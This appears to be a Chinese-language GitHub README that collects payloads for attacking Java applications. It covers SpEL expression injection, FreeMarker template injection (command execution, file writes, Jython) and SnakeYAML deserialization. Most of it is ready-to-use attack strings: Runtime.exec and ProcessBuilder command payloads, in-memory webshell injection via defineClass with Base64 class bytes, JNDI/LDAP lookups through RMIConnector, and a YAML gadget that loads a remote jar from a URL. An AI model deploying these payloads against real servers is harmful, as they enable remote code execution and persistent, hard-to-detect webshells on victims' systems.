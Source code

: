 # Memoryshell-JavaALL
我不允许你还不会用JAVA 内存马

## SPEL 

不加模板解析的payload
T(java.lang.Runtime).getRuntime().exec("calc")
new+java.lang.ProcessBuilder("cmd","/c","Calc").start()
加模板解析的payload
#{new java.lang.ProcessBuilder({'calc'}).start()}
可以回显时使用
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
可以打入内存马高版本Spring Core 受限
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
使用JNDI 注入利用 在Springboot 中不适用，因为它会程序启动时初始化InitialContext
#{T(java.lang.System).setProperty('com.sun.jndi.ldap.object.trustURLCodebase', 'true')} 
#{new javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"), new java.util.Hashtable()).connect()}

## FreeMarker 
执行命令
${"freemarker.template.utility.Execute"?new()("id")}
${"freemarker.template.utility.Execute"?new()("Calc")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("Calc")}
写文件
${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileWriter","/tmp/hh.txt").append("<>").close()}
读文件
${"freemarker.template.utility.ObjectConstructor"?new()(java.io.FileWriter("/tmp/hh.txt").append("ttt").close())}
使用SPEL利用
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc\")").getValue()}
使用SPEL 进行JNDI
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("new+javax.management.remote.rmi.RMIConnector(new+javax.management.remote.JMXServiceURL(\"service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc\"),new+java.util.Hashtable()).connect()").getValue()}
使用SPEL 加载内存马
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(org.springframework.cglib.core.ReflectUtils).defineClass('SpringInterceptor',T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADQA5。。。\"),new+javax.management.loading.MLet(new+java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()").getValue()}
使用Jython 
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>

## YAML
ftp 可以换为HTTP 及其他支持协议
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ftp://127.0.0.1:8000/yaml-payload4.jar"]]]]


各位师傅有建议及其他Payload 带带弟弟啊
未完待续.....
